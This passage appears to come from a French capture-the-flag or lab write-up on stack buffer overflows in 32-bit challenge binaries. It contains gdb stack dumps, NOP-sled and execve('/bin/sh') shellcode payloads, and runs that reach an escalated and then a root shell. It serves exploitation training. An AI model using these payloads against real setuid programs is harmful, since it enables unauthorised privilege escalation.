 ```$ gdb -batch -ex='unset env LINES' -ex='unset env COLUMNS' -ex='b 21' -ex='run' -ex='x/300x $esp' -args  /usr/local/bin/chal $(python -c "print '\x90'*(362-45)+'\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh'+'BBBB'") 
0xbffff830:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff840:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff850:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff860:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff870:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff880:	0x90909090	0x1feb9090	0x0876895e	0x4688c031
0xbffff890:	0x0c468907	0xf3890bb0	0x8d084e8d	0x80cd0c56
0xbffff8a0:	0xd889db31	0xe880cd40	0xffffffdc	0x6e69622f
0xbffff8b0:	0x4268732f	0x00424242	0x5f474458	0x53534553
0xbffff8c0:	0x5f4e4f49	0x313d4449	0x45485300	0x2f3d4c4c
0xbffff8d0:	0x2f6e6962	0x68736162	0x52455400	0x74783d4d
0xbffff8e0:	0x2d6d7265	0x63363532	0x726f6c6f	0x48535300
....
0xbffffa10:	0x303d687a	0x31333b31	0x6c2e2a3a	0x3d616d7a
0xbffffa20:	0x333b3130	0x2e2a3a31	0x3d7a6c74	0x333b3130
thrasivoulos@Sneaky:~$ 

=> 0xbffff7e0
```



On quitte gdb et on fait en shell
````
./vuln_basic  $(python -c 'print "\x90"*(512-48)+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x50\xfd\xff\xbf";')
$ id
uid=1001(user) gid=1001(user) euid=1000(chall) groups=1001(user)
````

````
$ /usr/local/bin/chal $(python -c "print '\x90'*(362-45)+'\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh'+'\xe0\xf7\xff\xbf'")
# id
uid=1000(thrasivoulos) gid=1000(thrasivoulos) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(thrasivoulos)
````



</br>

## Execute stack payload : after ESP


On se le refait mais avec la payload après EIP
````
./vuln_basic  $(python -c 'print "\x90"*(512)+"\xc8\xfd\xff\xbf"+"\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81";')
````

</br>

